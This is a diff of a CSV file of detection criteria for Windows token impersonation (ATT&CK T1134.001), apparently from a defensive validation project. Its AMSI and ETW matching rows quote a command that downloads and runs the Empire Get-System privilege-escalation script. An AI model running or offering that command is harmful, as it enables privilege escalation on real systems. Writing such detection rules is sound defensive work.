

Before and after one commit to secureworks/atomic-validation-criteria, a CSV file: windows/T1134.001.csv, drawn as a sheet; only a part is shown; the shorter side is filled out with more unchanged rows; the diff covers the shown part only.

```diff
--- a/windows/T1134.001.csv
+++ b/windows/T1134.001.csv
@@ -1,14 +1,10 @@
 T1134.001,windows,90db9e27,Named pipe client impersonation
-_E_,AMSI,app_name~=PowerShell
-_E_,AMSI,scan_content~=[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
-_E_,AMSI,scan_content~=IEX (IWR 'https://raw.githubusercontent.com/BC-SECURITY/Empire/f6efd5a963d424a1f983d884b637da868e5df466/data/module_source/privesc/Get-System.ps1' -UseBasicParsing); Get-System -Technique NamedPipe -Verbose
-_E_,ETW,chan_name~=Microsoft-Windows-PowerShell
-_E_,ETW,event_msg~=Creating Scriptblock text
-_E_,ETW,event_data_list~=[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
-_E_,ETW,event_data_list~=IEX (IWR 'https://raw.githubusercontent.com/BC-SECURITY/Empire/f6efd5a963d424a1f983d884b637da868e5df466/data/module_source/privesc/Get-System.ps1' -UseBasicParsing); Get-System -Technique NamedPipe -Verbose
+#_E_,AMSI,scan_content~=[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12,app_name~=PowerShell
+#_E_,AMSI,scan_content~=IEX (IWR 'https://raw.githubusercontent.com/BC-SECURITY/Empire/f6efd5a963d424a1f983d884b637da868e5df466/data/module_source/privesc/Get-System.ps1' -UseBasicParsing); Get-System -Technique NamedPipe -Verbose,app_name~=PowerShell
+_E_,AMSI,scan_content*='System.dll'.*GetType('Microsoft.Win32.UnsafeNativeMethods')
+_E_,File,CREATE,path=\\.\pipe\TestSVC
 
 T1134.001,windows,34f0a430,`SeDebugPrivilege` token duplication
-_E_,AMSI,app_name~=PowerShell
-_E_,AMSI,scan_content~=[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
-_E_,AMSI,scan_content~=IEX (IWR 'https://raw.githubusercontent.com/BC-SECURITY/Empire/f6efd5a963d424a1f983d884b637da868e5df466/data/module_source/privesc/Get-System.ps1' -UseBasicParsing); Get-System -Technique Token -Verbose
-_E_,ETW,chan_name~=Microsoft-Windows-PowerShell
+#_E_,AMSI,scan_content~=[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12,app_name~=PowerShell
+#_E_,AMSI,scan_content~=IEX (IWR 'https://raw.githubusercontent.com/BC-SECURITY/Empire/f6efd5a963d424a1f983d884b637da868e5df466/data/module_source/privesc/Get-System.ps1' -UseBasicParsing); Get-System -Technique Token -Verbose,app_name~=PowerShell
+_E_,AMSI,scan_content*='System.dll'.*GetType('Microsoft.Win32.UnsafeNativeMethods')
```
Also changed, not shown: 1 added row, 21 removed rows and 5 edited cells elsewhere in this file.
